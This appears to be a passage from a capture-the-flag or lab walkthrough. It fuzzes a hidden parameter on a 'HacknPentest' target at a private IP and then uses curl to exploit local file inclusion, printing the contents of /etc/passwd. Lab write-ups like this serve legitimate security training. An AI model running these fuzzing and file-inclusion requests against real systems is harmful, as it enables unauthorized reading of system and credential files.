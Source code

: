 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

Target: http://192.168.20.149/image.php?secrettier360=FUZZ

Total requests: 949

===================================================================

ID Response Lines Word Chars Payload

===================================================================

000000256: 200 13 L 43 W 328 Ch "dev"

Total time: 1.843070

Processed Requests: 949

Filtered Requests: 948

Requests/sec.: 514.9015

### Browser (The Right Parameter)

![](media/d98830f11a4d6c5dc4c114621eaf46bf.png)

### Curl

Next curl can be used to test for Local File Inclusion.

root\@kali:\~\# curl http://192.168.20.149/image.php?secrettier360=/etc/passwd

\<html\>

\<title\>HacknPentest\</title\>

\<body\>

\<img src='hacknpentest.png' alt='hnp security' width="1300" height="595"
/\>\</p\>\</p\>\</p\>

\</body\>

finaly you got the right
parameter\<br\>\<br\>\<br\>\<br\>root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

```